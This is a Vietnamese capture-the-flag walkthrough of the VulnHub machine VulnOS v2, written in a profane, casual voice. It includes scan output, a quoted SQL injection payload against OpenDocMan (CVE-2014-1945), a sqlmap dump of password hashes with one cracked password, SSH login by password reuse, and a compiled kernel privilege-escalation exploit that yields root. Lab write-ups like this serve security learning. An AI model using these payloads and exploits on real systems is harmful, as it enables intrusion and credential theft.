







[VulnHub] VulnOS-v2
Overview
Link download: VULNOS: 2
Difficulty: Easy
Đuỵt moẹ, phải nói là cái bài củ lìn này nhiều trap thực sự, đi mò mẫm mất thời gian vcl mà toàn rabbit hole.
Information Gathering
Nmap
$ nmap -sn -v 10.10.10.102-105
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-03 15:39 +07
Initiating Ping Scan at 15:39
Scanning 4 hosts [2 ports/host]
Completed Ping Scan at 15:39, 1.20s elapsed (4 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:39
Completed Parallel DNS resolution of 1 host. at 15:39, 0.04s elapsed
Nmap scan report for 10.10.10.102 [host down]
Nmap scan report for 10.10.10.103
Host is up (0.00058s latency).
Nmap scan report for 10.10.10.104 [host down]
Nmap scan report for 10.10.10.105 [host down]
Read data files from: /usr/bin/../share/nmap
$ nmap -p- 10.10.10.103 --min-rate 3000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-03 15:39 +07
Nmap scan report for 10.10.10.103
Host is up (0.00013s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
6667/tcp open irc
Nmap done: 1 IP address (1 host up) scanned in 1.05 seconds
$ nmap -p 22,80,6667 -A 10.10.10.103
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-03 15:41 +07
Nmap scan report for 10.10.10.103
Host is up (0.00064s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
| 2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
| 256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_ 256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open irc ngircd
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.66 secondsCó cái cổng 6667 chạy dịch vụ đéo gì kia, irc, wtf!? Không vội cắm mặt vào cái này, chả đi đến đâu đâu, tôi thử rồi :/
Tập trung vào cái http server của nó đã.

Nhìn cái mặt tiền web site này u tối như chợ đen (đen đúng nghĩa đen). Enumerate cái URL này để kiếm file ẩn.
Dirsearch
...bla...bla...bla...
[22:05:27] 200 - 10KB - /jabc/includes/
[22:05:27] 200 - 117KB - /jabc/includes/bootstrap.inc
[22:05:27] 200 - 9KB - /jabc/index.php
[22:05:27] 200 - 3KB - /jabc/install.php
[22:05:28] 301 - 315B - /jabc/misc -> http://10.10.10.103/jabc/misc/
[22:05:28] 301 - 318B - /jabc/modules -> http://10.10.10.103/jabc/modules/
[22:05:28] 200 - 9KB - /jabc/modules/
[22:05:31] 301 - 319B - /jabc/profiles -> http://10.10.10.103/jabc/profiles/
[22:05:31] 200 - 743B - /jabc/profiles/standard/standard.info
[22:05:31] 200 - 278B - /jabc/profiles/testing/testing.info
[22:05:31] 200 - 271B - /jabc/profiles/minimal/minimal.info
[22:05:31] 200 - 2KB - /jabc/robots.txt
[22:05:32] 301 - 318B - /jabc/scripts -> http://10.10.10.103/jabc/scripts/
[22:05:32] 200 - 949B - /jabc/scripts/
[22:05:32] 301 - 316B - /jabc/sites -> http://10.10.10.103/jabc/sites/
[22:05:33] 301 - 320B - /jabc/templates -> http://10.10.10.103/jabc/templates/
[22:05:33] 200 - 976B - /jabc/templates/
[22:05:34] 301 - 317B - /jabc/themes -> http://10.10.10.103/jabc/themes/
[22:05:34] 200 - 2KB - /jabc/themes/
[22:05:34] 403 - 4KB - /jabc/update.php
[22:05:35] 200 - 42B - /jabc/xmlrpc.phpNền tảng Drupal, phiên bản 7.26, kiếm được ở đâu thì ở đây nhé.
/jabc/profiles/standard/standard.info
Information added by Drupal.org packaging script on 2014-01-15
version = "7.26"
project = "drupal"
datestamp = "1389815930"Cái đìn địz! Cái chỗ file/folder này khiến tôi mất thời gian thực sự nhiều, toàn trap hết, đây là kết luận của tôi sau 15 phút mò mẫm hết cái đống này và chả kiếm chác thêm được gì có giá trị. Quay trở lại với mặt tiền đen xì xì kia, có đoạn này.

Cái trò nền đen chữ đen này xưa như trái đất rồi nhé tml!
Login vào một web site khác với tài khoản và mật khẩu là guest/guest.
Cảm thấy tiếc thời gian vào cái đống file enumerate vcl

Để ý thấy OpenDocMan v1.2.7. Search lỗi về thằng này ngay và luôn.

https://www.exploit-db.com/exploits/32075
1) SQL Injection in OpenDocMan: CVE-2014-1945
The vulnerability exists due to insufficient validation of "add_value" HTTP GET parameter in "/ajax_udf.php" script. A remote unauthenticated attacker can execute arbitrary SQL commands in application's database.
The exploitation example below displays version of the MySQL server:
http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,v
ersion%28%29,3,4,5,6,7,8,9Rõ ràng =)) ném thằng vào Sqlmap chứ còn gì nữa.
Sqlmap
Database: jabcd0cs
Table: odm_user
[3 entries]
+----+--------------------+-------------+------------------------------------------+----------+-----------+------------+------------+---------------+
| id | Email | phone | password | username | last_name | department | first_name | pw_reset_code |
+----+--------------------+-------------+------------------------------------------+----------+-----------+------------+------------+---------------+
| 1 | webmin@example.com | 5555551212 | b78aae356709f8c31118ea613980954b | webmin | min | 2 | web | <blank> |
| 2 | guest@example.com | 555 5555555 | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest | guest | 2 | guest | NULL |
+----+--------------------+-------------+------------------------------------------+----------+-----------+------------+------------+---------------+
b78aae356709f8c31118ea613980954b:webmin1980Đến đây lại mất thêm thời gian để mò mẫm xem admin có làm gì được thêm không, có upload file, enable extention file để upload shell bla bla… đều đéo được :)
Một kinh nghiệm được rút ra khi tôi làm bài Writeup-HackTheBox, đó là tài khoản đăng nhập trên Http server hoàn toàn có thể đăng nhập được cả trên SSH, vì sao? Vì con người ấy mà, để tránh phải nhớ nhiều account trên một hệ thống, họ thường có xu hướng để cmn giống hệt nhau.
Xét cho cùng, thì con người vẫn luôn là điểm yếu nhất của hệ thống.

Privilege Escalation
Vì có được mật khẩu của user webmin, nên tôi không ngại khoản chạy lệnh sudo, chỉ là sudoer đéo cho tôi vào danh sách thôi :v
Để ý thấy phiên bản kernel hệ điều hành đang chạy là 3.13, hàng cổ đấy, và tôi biết thừa là nó dính lỗi leo quyền vì tôi từng gặp rồi :)))
https://www.exploit-db.com/exploits/33824

webmin@VulnOSv2:~/duma$ gcc 37292.c -o i_am_groot
webmin@VulnOSv2:~/duma$ ./i_am_groot
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)Done!